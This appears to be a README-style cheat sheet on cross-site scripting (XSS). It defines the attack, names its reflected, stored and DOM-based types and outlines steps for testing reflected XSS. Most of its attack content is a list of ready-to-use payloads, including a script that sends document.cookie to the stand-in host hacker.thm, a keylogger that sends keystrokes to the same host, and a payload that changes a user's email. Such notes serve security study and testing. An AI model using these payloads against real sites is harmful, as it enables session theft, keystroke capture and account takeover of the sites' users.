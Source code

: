 

What is cross-site scripting, XSS?
> Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application. 

XSS Proof Of Concept
- <script>alert(1);</script>
- "><img src=x onerror=alert(document.domain);>

What are the types of XSS attacks?
- Reflected XSS
- Stored XSS, AKA second-order or persistent XSS
- DOM-based XSS

Cross-site Scripting payload
- "onmouseover="alert(1)
- '-alert(1)-'
- Session Stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
- Key Logger <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
- Business Logic <script>user.changeEmail('attacker@hacker.thm');</script>

# Reflected XSS
Reflected XSS arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way. 
If something from URL reflected in document.
- Test every entry point.
- Submit random alphanumeric values.
- Determine the reflection context.
- Test a candidate payload.
- Test alternative payloads.
- Test the attack in a browser.

# Stored XSS
Stored XSS arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

# DOM-based XSS


## Automating xss identification with Dalfox & Paramspider